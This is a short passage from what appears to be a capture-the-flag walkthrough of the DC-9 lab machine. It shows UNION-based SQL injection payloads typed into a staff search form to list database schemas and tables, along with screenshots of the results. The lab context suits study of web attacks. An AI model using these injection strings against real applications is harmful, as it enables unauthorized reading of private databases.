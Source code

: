 mary' union all select 1,2,3,4,schema\_name,6 from information\_schema.schemata -- -

<img src="DC-9/media/image9.png" style="width:4.125in;height:1.80833in" alt="Search information can search using either the first or last name. mation_schema.schemata " />

<img src="DC-9/media/image10.png" style="width:2.95in;height:5.06667in" alt="Search results Name: Mary Moe position: CEO Phone No: 46478415155456 Email: marym@example.com Name: 2 3 Position: 4 Phone No: information schema Email: 6 Name: 23 Position: 4 Phone No: Staff Email: 6 Name: 2 3 Position: 4 Phone No: users Email: 6 " />

mary' union select all 1,2,3,4,table\_name,6 from information\_schema.tables -- -

<img src="DC-9/media/image11.png" style="width:3.875in;height:2.16667in" alt="Search information You can search using either the first or last name. Search: &#39;formation schema-tables - " />